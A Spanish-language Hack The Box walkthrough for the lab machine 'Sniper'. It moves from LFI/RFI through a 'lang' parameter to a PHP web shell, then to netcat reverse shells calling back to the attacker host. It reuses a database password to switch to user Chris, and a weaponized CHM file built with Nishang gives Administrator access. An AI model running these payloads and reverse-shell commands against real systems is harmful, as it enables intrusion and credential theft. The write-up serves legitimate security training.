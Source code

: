 ```yaml
---
layout: post
title: Sniper
date: 2022-11-29
categories: ["HTB"]
thumbnail: "assets/images/Sniper.png"
---
```


# Sniper [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.151 -oG allPorts`
- `nmap -sCV -p80,135,139,445,49667 10.10.10.151 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Inspección

Cuando entramos en la página vemos varios apartados, sólo dos de ellos redireccionan a una ruta diferente del sistema, el apartado `Our Services` tiene un parámetro llamado `lang` el cual apunta a un archivo `PHP` de diferente idioma, vamos a ver si es vulnerable a `LFI`.

Para ello cambiaremos `lang=blog-en.php` por `lang=\windows\win.ini`, la página se nos queda en blanco, si inspeccionamos el código de la página veremos al final del todo el resultado, por lo que es vulnerable.

Vamos a probar si también es vulnerable a `RFI`. Para ello nos montaremos un servidor con el demonio de `Samba`, de lo contrario no funcionará. Crearé un archivo con una frase y lo meteré en la carpeta de `Samba`, teniendo esto cambiaremos el parámetro anterior por `lang=\\10.10.14.15\test.txt`.

Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell para poder ejecutar comandos en la Web, para ello crearemos el siguiente archivo en `PHP`:

```
<?php system($_REQUEST['cmd']); ?>
```

En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.

- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`


```
</html>
nt authority\iusr
</body>
</html>
```
Bien! Ya tenemos ejecución remota de comandos!

### Shell

Para obtener la Shell utilizaremos el archivo `PHP` que nos habíamos creado más `NC`,
de tal manera que el comando que ejecutaremos será NC para entablarnons la conexión.

Para ello utilicé la versión de `NC` de `32 bits`, el cual pude encontrar en [`GitHub`](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Una vez descargado lo volveremos a copiar en la carpeta compartida de `Samba`.

Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto que queramos, en mi caso `4444`.

- `rlwrap -cAr nc -nlvp 4444`

Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:

- `lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444`

Tras unos segundos de espera veremos que nos pudimos entablar la conexión.

Fantástico! Ya estamos en la máquina como `IUSR`!

### Subida de privilegios #1

Bien, antes de ser administradores de la máquina tenemos que pasar por otro usuario, en este caso por `Chris`. Gracias a `C:\Users` pude ver a los usuarios, por eso sé que es `Chris`.

Con esto sabido inspeccionamos un poco el directorio `C:\inetpub\wwwroot\user`, vemo que hay un archivo llamado `db.php` el cual contiene una contraseña para conectarse a la Base de Datos. Nos copiamos la contraseña.

Una vez hecho esto nos pasamos a `PowerShell`, para ello ejecutamos `powershell` y ejecutamos `hostname` para ver el `HostName` de la máquina, ahora veremos para qué.

Para ver si la contraseña introducida es la correcta haremos lo siguiente:

```
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```

Como vemos al ejecutar el comando nos dice que somos `Chris`, por lo que la contraseña es correcta. Para ganar una Shell como `Chris` hay que hacerle un pequeño cambio al último comando ejecutado, de tal manera que llamaremos al `NC` que habíamos subido con anterioridad a `Samba`.

Antes de eso deberíamos ponernos en escucha con `NC`, en mi caso será por el puerto `443`. Ahora sí, podemos ejecutar el siguiente comando:

```
PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.15\share\nc.exe -e cmd 10.10.14. 443 } -Credential $cred -Computer localhost
```
Estupendo! Ya tenemos una Shell como `Chris`!

### Subida de privilegios #2

Si nos vamos a la raíz veremos una carpeta llamada `Docs` y dentro de ella un archivo `TXT` con el nombre de `note.txt`. Vamos a mirar a ver qué nos dice:

> Hi Chris, Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
>
> Regards, Sniper CEO.

Como vemos le está diciendo a `Chris` que sus habilidades en `PHP` son muy malas, que por favor hable con `YamiTenshi` para que él le haga clases. También le dice que espera que esté preparado para la documentación de la nueva app, que la suelte aquí cuando la haya terminado.

Si nos vamos a las descargas de `Chris` veremos un archivo llamado `instructions.chm`, si queremos ese archivo nos lo tenemos que pasar a nuestra máquina `Windows`.

Una vez nos lo hayamos pasado veremos un docuemnto, en verdad no tiene ningún tipo de relevancia más allá de que es un archivo `CHM` y `Nishang` tiene una herramienta ([`Out-Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)) que crea archivos `CMH` armados.

Para poder utilizar la herramienta nos la tenemos que descargar del repositorio de [`Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) e importarlo en `PowerShell`, para ello haremos lo siguiente en nuestra máquina `Windows`:

- `Import-Module .\Out-CHM.ps1`

Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:

```Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```

Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.

Se nos creará un `doc.chm`, lo vamos a pasar a nustra máquina de atacante y de ahí a la máquina víctima con `Samba`.

- `copy \\10.10.14.15\share\doc.chm \Docs\`

Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:

- `copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\`

Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:

- `rlwrap -cAr nc -nlvp 4444`

Enhorabuena! Estamos en la máquina como `Administrator`! Esto se nos ha complicado un poco!
